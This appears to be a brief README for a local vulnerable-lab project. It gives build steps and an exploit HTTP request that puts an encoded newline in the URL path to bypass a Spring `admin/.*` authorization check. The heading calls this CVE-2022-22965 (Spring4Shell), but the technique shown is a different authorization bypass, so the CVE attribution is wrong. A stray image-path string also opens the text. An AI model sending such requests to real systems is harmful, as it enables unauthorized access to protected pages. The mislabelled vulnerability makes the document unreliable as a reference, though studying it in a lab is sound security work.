 # CVE-2022-22965(Spring4Shell)

## Build

1. `mvn package`

## Start

1. 使用 IDEA 直接启动

## EXP

```http
GET /admin/1%0d%0a HTTP/1.1
Host: 127.0.0.1:9999
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E8E29D0409C6C153D1C825E11A344082
Connection: close
```

path 中注入任意换行符即可绕过 `admin/.*` 的权限校验